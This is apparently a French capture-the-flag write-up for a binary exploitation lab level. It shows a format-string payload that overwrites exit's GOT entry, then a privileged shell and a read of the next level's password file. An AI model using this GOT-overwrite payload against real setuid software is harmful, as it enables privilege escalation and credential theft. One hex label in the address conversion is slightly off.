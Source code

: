 # leUVeL cInQ

- On cherche l'adresse du exit afin de l'override pour appeler la fonction o. Car c'est la seule fonction qui n'a pas d'utilité au programme et qui ne quitera pas la programme.

<pre>
$> objdump -R ./level5
./level5:     file format elf32-i386

DYNAMIC RELOCATION RECORDS
OFFSET   TYPE              VALUE 
08049814 R_386_GLOB_DAT    __gmon_start__
08049848 R_386_COPY        stdin
08049824 R_386_JUMP_SLOT   printf
08049828 R_386_JUMP_SLOT   _exit
0804982c R_386_JUMP_SLOT   fgets
08049830 R_386_JUMP_SLOT   system
08049834 R_386_JUMP_SLOT   __gmon_start__
<strong>08049838</strong> R_386_JUMP_SLOT   exit
0804983c R_386_JUMP_SLOT   __libc_start_main
</pre>

- (hex)0x08049838 = (little indian)\\x38\\x98\\x04\\x08

- Comme pour l'exercice precedent nous cherchons la place de l'adresse de la fonction `o` grace au printf.

<pre>
$> python -c "print('AAAA' + '\x38\x98\x04\x08' + '%x ' * 5)" | ./level5
AAAA8200 b7fd1ac0 b7ff37d0 <strong>41414141 8049838</strong>
</pre>

- Afin de pouvoir override l'appel à exit nous devons recuperer l'adresse de la fonction o.

<pre>
$> gdb ./level5
(gdb) disass o
Dump of assembler code for function o:
   <strong>0x080484a4</strong> <+0>:	push   %ebp
   0x080484a5 <+1>:	mov    %esp,%ebp
   0x080484a7 <+3>:	sub    $0x18,%esp
   0x080484aa <+6>:	movl   $0x80485f0,(%esp)
   0x080484b1 <+13>:	call   0x80483b0 <system@plt>
   0x080484b6 <+18>:	movl   $0x1,(%esp)
   0x080484bd <+25>:	call   0x8048390 <_exit@plt>
End of assembler dump.
</pre>
- (hex)0x080484a5 = (dec)134513828

- Comme pour l'exercice precedent nous avons l'adresse de la fonction à override et en plus l'adresse de la fonction o sous forme de decimal.

<pre>
$> (python -c "print('AAAA' + '\x38\x98\x04\x08' + '%134513820d' + '%5\$n')"; cat) | ./level5 | tr -d ' '`

id
uid=2045(level5)gid=2045(level5)euid=2064(level6)egid=100(users)groups=2064(level6),100(users),2045(level5)
cat /home/user/level6/.pass
AAAA8d3b7bf1025225bd715fa8ccb54ef06ca70b9125ac855aeab4878217177f41a31
</pre>